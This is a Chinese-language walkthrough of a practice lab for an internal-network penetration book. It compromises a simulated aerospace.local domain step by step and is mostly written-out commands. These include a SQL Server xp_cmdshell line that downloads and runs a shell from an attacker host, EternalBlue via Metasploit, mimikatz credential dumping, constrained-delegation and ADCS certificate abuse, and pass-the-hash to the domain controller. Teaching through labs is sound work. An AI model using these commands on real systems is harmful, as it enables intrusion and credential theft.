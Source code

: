 # 《内网渗透体系建设》简易教学练习环境WP

By WHOAMI、Venenof7

## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```

![image-20240222121702332](.\images\image-20240222121702332.png)

先访问 80 端口：

![image-20240222115713142](.\images\image-20240222115713142.png)

1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：

![image-20240222121422282](.\images\image-20240222121422282.png)

由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```

![image-20240222122220971](.\images\image-20240222122220971.png)

## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：

![image-20240222122300181](.\images\image-20240222122300181.png)

上传 fscan 扫描内网：

![image-20240222122441289](.\images\image-20240222122441289.png)

![image-20240222122451598](.\images\image-20240222122451598.png)

发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：

![image-20240222122857732](.\images\image-20240222122857732.png)

由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```

![image-20240222124817297](.\images\image-20240222124817297.png)

然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :b237d77097aeca12476045a167ac1e1d -dc-ip 172.22.10.11
```

![image-20240222125323210](.\images\image-20240222125323210.png)

发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :b237d77097aeca12476045a167ac1e1d -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```

![image-20240222125738235](.\images\image-20240222125738235.png)

成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```

![image-20240222130846243](.\images\image-20240222130846243.png)

在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：

![image-20240222132551554](.\images\image-20240222132551554.png)

然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 2c8e4ec4d8a61869d85c7921c6076dfd：

![、](.\images\image-20240222133044952.png)

## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```

![image-20240222134937394](.\images\image-20240222134937394.png)

发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :2c8e4ec4d8a61869d85c7921c6076dfd -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```

![image-20240222140815015](.\images\image-20240222140815015.png)

申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```

![image-20240222141014583](.\images\image-20240222141014583.png)

可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2 -dc-ip 172.22.10.11
```

![image-20240222141221545](.\images\image-20240222141221545.png)

## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2 -dc-ip 172.22.10.11
```

![image-20240222141327594](.\images\image-20240222141327594.png)